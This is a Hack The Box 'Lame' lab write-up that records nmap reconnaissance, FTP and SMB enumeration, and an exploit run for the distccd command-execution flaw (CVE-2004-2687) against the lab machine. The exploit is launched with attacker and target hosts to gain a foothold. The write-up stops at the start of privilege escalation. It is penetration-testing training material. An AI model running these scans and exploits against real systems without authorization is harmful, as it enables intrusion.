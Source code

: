 # Hack the Box - Lame

```CSS
Machine IP: 10.10.10.3 - Linux
Difficulty: Easy
Category: OSCP Preparation
Vulmerabilities:
  - CVE-2004-2687: DistCC Daemon Command Execution
  - CVE-2009-1185: 
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -p- 10.10.10.3 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.3
Host is up (0.18s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 131.61 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 21,22,139,445,3632 10.10.10.3 -oN services.nmap

Nmap scan report for 10.10.10.3                                                      
Host is up (0.17s latency).                                                          
                                                                                     
PORT     STATE SERVICE     VERSION                                                   
21/tcp   open  ftp         vsftpd 2.3.4                                              
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)        
| ftp-syst: 
|   STAT:           
| FTP server status:                                                                 
|      Connected to 10.10.14.24
|      Logged in as ftp           
|      TYPE: ASCII     
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status          
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:                   
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)       
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)                
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
                                          
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)                                      
| smb-os-discovery:            
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:       
|   Domain name: hackthebox.gr          
|   FQDN: lame.hackthebox.gr           
|_  System time: 2023-05-07T02:00:56-04:00
| smb-security-mode:                      
|   account_used: <blank>
|   authentication_level: user                                                       
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h59m43s, deviation: 2h49m43s, median: -17s
                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.82 seconds
```

---

# Enumeration

## Port 21 - FTP
  - Service and Version:`vsftpd 2.3.4`
  - Anonymous login is allowed.
![image](https://user-images.githubusercontent.com/83878909/236660813-dfffeaff-5498-4751-9611-33ed709a53c3.png)

```CSS
▶ ftp 10.10.10.3
```

  - No useful information was found.
![image](https://user-images.githubusercontent.com/83878909/236660787-9747600c-2dc6-4367-8179-e390ddcc588e.png)

### vsfptd 2.3.4
  - Check if the version is vulnerable using NMAP.
  - Search for a NMAP script to check `ftp` service.
```CSS
▶ ls /usr/share/nmap/scripts/ftp*
```
![image](https://user-images.githubusercontent.com/83878909/236664752-1a4b5dc8-8d51-49c3-b571-ab4953cf5983.png)

```CSS
▶ nmap -p 21 10.10.10.3 --script ftp-vsftpd-backdoor.nse
```
![image](https://user-images.githubusercontent.com/83878909/236664883-3430962a-ccbe-4d05-8348-9ff8ae89c375.png)
  - The above output shows that the target is not vulnerable.

---

## Port 139 & 445 - SMB (Samba)
  - Service and Version: `Samba 3.0.20 Debian`
![image](https://user-images.githubusercontent.com/83878909/236665134-25d9feb4-5cd8-4dc4-aadb-5871a4b3b898.png)

  - List Shares Anonymous
```CSS
▶ smbclient -L \\lame.hackthebox.gr -I 10.10.10.3 -N 
```
![image](https://user-images.githubusercontent.com/83878909/236665450-f2a18dcd-6de5-4c71-8a07-40edb57313d8.png)

  - View Share Permisssions
```CSS
▶ smbmap -H 10.10.10.3
```
![image](https://user-images.githubusercontent.com/83878909/236667248-57476b99-3660-4588-988d-06b7be5d5c86.png)

---

## Port 3632 distccd v1
  - Check if the version is vulnerable using NMAP.
  - Search for a NMAP script to check `distccd` service.

```CSS
▶ ls /usr/share/nmap/scripts/dist*
```
![image](https://user-images.githubusercontent.com/83878909/236667913-e01b1c12-28a9-4a99-a8ad-8abaaf12d65f.png)

```CSS
▶ nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse
```
![image](https://user-images.githubusercontent.com/83878909/236667868-56a68f3d-9a51-412f-b315-9b62fb71ec49.png)

---

# Exploit - Method I

## Initial Foothold
## DistCC Daemon Command Execution (CVE-2004-2687)
  - Exploit (in my exploits repository).

```CSS
▶ python CVE-2004-2687-Exploit.py --rhost 10.10.10.3 --lhost 10.10.14.24
```
![image](https://user-images.githubusercontent.com/83878909/236668409-86d65ad4-c6b0-44ef-b69c-42948fb7a440.png)

## Privilege Escalation
  - Check OS version using NMAP.
```CSS
▶ nmap -O --osscan-guess 10.10.10.3
```
![image](https://user-images.githubusercontent.com/83878909/236670200-3ff0d70b-edaf-4f1e-844d-4737b2a7a33e.png)
